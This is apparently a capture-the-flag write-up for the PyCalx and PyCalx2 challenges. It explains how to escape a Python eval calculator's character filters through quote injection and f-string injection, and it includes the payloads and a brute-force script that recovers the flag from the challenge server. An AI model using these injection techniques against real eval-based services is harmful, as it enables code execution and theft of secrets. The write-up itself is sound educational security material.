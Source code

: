 # PyCalx(2) &ndash; write-up by @AltairQ
>Keywords: python, python3.6, f-strings, whitelisting, eval, web

Included files:
* `server.py` - original server-side code
* `main.py` - stripped server code for local testing
* `hax.py` - automated exploit for PyCalx
* `hax2.py` - automated exploit for PyCalx2
* `hax2bs.py` - second exploit rewritten with binary search

## Task Description
> This code is supposed to be unexploitable :/ another pyjail? <br>
> [Source]  <br>
> Try this or this  <br>
> (link: http://178.128.96.203/cgi-bin/server.py?value1=abc&op=%3D%3D&value2=abc) <br>
> Notice: The flag may contain non alphabetic characters (but still printable) <br>


## A quick look at PyCalx
Accessing the attached links shows us a simple webpage with three text inputs and a button. We can access the server-side code by providing `source=1` as a GET parameter.

Attacker-controlled GET variables are `value1`, `value2`, `op` and of course `source`. All but the last one are filtered using some kind of a filter. `get_value(val)` blacklists any of these characters: `()[]'"`. `op` uses a different function, `get_op(val)` which whitelists the first character of `op` to be one of these: `+,-,/,*,=,!`. Also, `op` is limited to 2 characters, `value1/2` are limited to 64 chacters, and none of the `value` and `op` variables can be empty.

Server-side code firstly validates both of the `value` variables and, if it's a string, wraps it in single quotes (using `repr(...)` on a `str`). They must be of the same type (intness is validated using `.isdigit()`). Then the `value`s get concatenated with `op` in between and `eval`ed. The result of `eval` is printed only if it consists of digits or is equal to either `'True'` or `'False'`. Any exceptions are caught and result in `Invalid` being printed out.

Our objective is to discover the contents of the global variable `FLAG`:
```python
FLAG = open('/var/www/flag','r').read()
```

## The vulnerability

Pretty obvious to find, arises from two code fragments:
```python
        # in get_op(val)
        list_ops = ['+','-','/','*','=','!']
        if val == '' or val[0] not in list_ops:
            print('<center>Invalid op</center>')
```
and
```python
    calc_eval = str(repr(value1)) + str(op) + str(repr(value2))
```

We have complete control of the second character of `op`, and additionally it's not wrapped using `repr`. First we try to escape the string context by closing one of the single quotes. Test payload:
```python
value1 = " "
op = "+'"
value2 = "+ FLAG #" # comment symbol to remove the single quote at the end
```
would be evaluated as
```python
eval("' '+''+FLAG #'")
```
Unfortunately the whitelist at the end will not let us just print the `FLAG`. We have to be smarter than this, and limit our payload results to only logic values.

## The exploit
We can leverage the lexicographical comparison of strings in python (using non-blacklisted `<` operator) to brute-force the flag. `a` is "less" than `b` if `a` is a prefix of `b` or if the first different character in `a` is "lower" (in the `ord(...)` sense) than the correspoding character of `b`. This means we can brute-force each character independently, reducing the complexity from multiplicative to additive. Brute forcing one character costs us at most `|alphabet|` tries - using binary search, we can achieve `log_2|alphabet|`.

The automated payload looks like this:
```python
cguess = "MeePwn{"
op = "+'"
val2 = "+ < FLAG #"


while True:
    print(cguess)

    for c in alphabet:
        cchar = c

        print(c, end=" ", flush=True)

        params = {
            'value1': cguess+cchar,
            'op': op,
            'value2': val2
        }

        time.sleep(0.1)

        r = requests.get(url = "http://178.128.96.203/cgi-bin/server.py", params = params )

        # print(r.text)

        if "True" not in r.text:
            cguess += alphabet[alphabet.index(cchar)-1]
            print("got: " + cguess)
            break
```
The dissapointment comes after quite a chunk of the `FLAG` gets recovered - `MeePwnCTF{python3.66666666666666_` seems to be the most our code can achieve, and malfunctions after next guessed character. This is caused by the fact that the `FLAG` itself contains blacklisted characters, which we cannot include in `value2` vector.

## Back to the drawing board
We struggled quite a bit with this, we tried various encoding techniques, including using `# coding=...` trick, but none seemed to work. We failed to use the `source` variable, contents of which are fully under our control. Rewriting the code to use the `source` we recover the flag: `MeePwnCTF{python3.66666666666666_([_((you_passed_this?]]]]]])}`.

## PyCalx2 exploit
Only difference is the additional filtering of the `op` variable:
```python
op = get_op(get_value(arguments['op'].value))
```
The single quote approach will no longer work, but the previous flag contains a clue - the new feature of python3.6, the f-strings. In short, string literals prefixed with `f` will be parsed for expressions of the form `{...}` and evaluated. This allows for more concise string formatting:
```python
f"My name is {name}"
# vs
"My name is {}".format(name)
```
Using this information we can devise another exploit; by setting `op` to `+f` we can force the `value2` to be parsed as a f-string and escape the string context. Only problem is that we are forced to return a string. This can be cleverly mitigated by this exploit:
```python
value1 = 'T'
op = '+f'
value2 = 'ru{source>=FLAG or 101:c}'
```
If the `source>=FLAG` expression evaluates to `False`, the result will be `{101:c}`(=`'e'`) plus the rest of the string, in total `True` . Otherwise we will get an `Invalid` result. Using this we can once again brute-force the flag using a binary search, which yields the final answer: `MeePwnCTF{python3.6[_strikes_backkkkkkkkkkkk)}`.

[index.php]:<./index.php>
